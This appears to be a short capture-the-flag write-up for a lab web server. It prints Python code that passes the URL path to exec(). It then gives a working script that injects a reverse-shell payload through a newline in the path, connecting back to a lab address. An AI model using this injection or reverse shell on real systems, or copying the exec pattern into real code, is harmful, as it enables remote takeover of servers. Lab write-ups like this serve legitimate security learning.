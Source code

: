 ## foothold

The SuperSecureServer is written in python and a comment give us a nudge where we should look at for an exploit.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right?
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
        requested = os.path.join(docRoot, path[1:])
        if os.path.isfile(requested):
            mime = mimetypes.guess_type(requested)
            mime = (mime if mime[0] != None else "text/html")
            mime = MIMES[requested.split(".")[-1]]
            try:
                with open(requested, "r") as f:
                    data = f.read()
            except:
                with open(requested, "rb") as f:
                    data = f.read()
            status = "200"
        else:
            errorPage = os.path.join(docRoot, "errors", "404.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read().format(path)
            status = "404"
    except Exception as e:
        print(e)
        errorPage = os.path.join(docRoot, "errors", "500.html")
        mime = "text/html"
        with open(errorPage, "r") as f:
            data = f.read()
        status = "500"
    return {"body": data, "mime": mime, "status": status}
```

### exploit

The _exec_ command is the vulnerable code command, I tried a lot to exploit it and in the end it was only the linebreak that separated me from a functional reverse shell.

```python
#!/usr/bin/python
import requests 
import urllib 
server = 'http://10.10.10.168:8080/' 
uri = '1337\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''
payload = urllib.parse.quote(uri) 
print("payload") 
print(server + payload) 
r = requests.get(server + payload) 
print(r.headers) 
print(r.text)
```
